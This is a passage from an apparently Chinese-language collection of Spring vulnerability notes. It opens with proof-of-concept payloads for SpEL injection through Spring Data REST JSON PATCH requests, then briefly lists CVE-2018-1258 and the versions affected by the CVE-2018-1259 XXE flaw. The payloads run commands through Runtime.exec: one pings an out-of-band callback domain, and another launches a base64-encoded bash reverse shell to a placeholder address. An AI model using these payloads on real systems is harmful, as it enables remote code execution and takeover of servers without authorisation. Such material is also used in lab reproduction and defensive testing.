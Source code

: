利用POC执行：

```


1.  `[{  "op":  "replace",  "path":  "T(java.lang.Runtime).getRuntime().exec(new java.lang.String('ping xxx.ceye.io'))/lastname",  "value":  "vulhub"  }]`


```

反弹shell，其中反弹shell命令需要借助编码来减少重定向出错的问题[java.lang.Runtime.exec() Payload Workarounds](http://www.jackson-t.ca/runtime-exec-payloads.html)：

```


1.  `[{  "op":  "replace",  "path":  "T(java.lang.Runtime).getRuntime().exec(new java.lang.String('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94LngueC54Lzg4OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'))/lastname",  "value":  "vulhub"  }]`


```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/1e70ceb8-8c08-4aa2-8dba-88fa530ca2ba.png?raw=true)

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/fa63d40d-80fc-45d5-84b7-3ca97884e4db.png?raw=true)

### [](#CVE-2018-1258-Spring-Security未经授权的访问 "CVE-2018-1258 Spring Security未经授权的访问")CVE-2018-1258 Spring Security未经授权的访问

影响版本：Spring Framework 5.0.5.RELEASE和Spring Security（任何版本）

暂无详细信息

### [](#CVE-2018-1259-具有XMLBeam的Spring-DataXXE "CVE-2018-1259 具有XMLBeam的Spring DataXXE")CVE-2018-1259 具有XMLBeam的Spring DataXXE

影响版本：

```


1.  `XMLBeam  1.4.14或更早版本结合使用的Spring  Data  Commons`
2.  `Spring  Data  Commons  1.13至1.13.11（Ingalls SR11）`
3.  `Spring  Data REST 2.6至2.6.11（Ingalls SR11）`
4.  `Spring  Data  Commons  2.0至2.0.6（Kay SR6）`
5.  `Spring  Data REST 3.0至3.0.6（Kay SR6）`


```

[http://www.polaris-lab.com/index.php/tag/CVE-2018-1259/](http://www.polaris-lab.com/index.php/tag/CVE-2018-1259/)
